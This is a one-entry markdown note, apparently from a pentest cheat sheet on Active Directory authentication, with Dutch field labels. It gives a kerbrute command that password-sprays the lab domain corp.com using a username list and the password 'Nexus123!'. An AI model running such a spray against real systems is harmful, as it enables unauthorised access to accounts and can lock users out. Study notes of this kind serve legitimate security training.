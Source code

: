# 23. AD authentication — Entry 15

## Categorie

kerbrute

## Commando

```
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```

## Omschrijving

Using kerbrute for password spraying

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

